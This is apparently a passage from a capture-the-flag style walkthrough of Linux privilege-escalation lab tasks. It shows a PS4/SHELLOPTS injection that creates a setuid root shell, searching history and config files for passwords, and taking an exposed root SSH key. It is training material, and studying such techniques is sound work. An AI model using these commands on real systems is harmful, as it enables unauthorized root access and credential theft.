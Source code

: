 	env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2

	Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

	/tmp/rootbash -p

	Remember to remove the /tmp/rootbash executable and exit out of the elevated shell before continuing as you will create this file again later in the room!

	rm /tmp/rootbash
	exit
	
# Task 16 - Password & Keys History Files

	Sometimes users make mistakes and type things into the command line they didn't mean to
	
	In this case we can look at the hidden history files in the user's home directory to see what they have typed into the command line
	
	cat ~/.*history | less
	
	In our case we see a command used to login to the mysql database as the root user
	
	Question Answers
		'mysql -h somehost.local -uroot -ppassword123'
		
# Task 17 - Password & Keys Config Files

	Config files often contain passwords in plaintext or other reversible formats
	
	Question Answers
		'/etc/openvpn/auth.txt'
		
# Task 18 - Password & Keys SSH Keys

	It is possible, sometimes, to come across important files that haven't been properly secured with the correct permissions
	This can lead to an attacker being able to get root user ssh keys
	
	You can look for hidden files & directories in the system root by doing
	ls -la /
	
	Our machine has a '.ssh' directory, lets take a look by doing
	ls -l /.ssh
	
	It contains a root ssh key which we can grab, use 'chmod 600 root_key' to give it the necessary file permissions and then access the root ssh account
	
# Task 19 - NFS

	Files created via NFS inherit the remote user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.
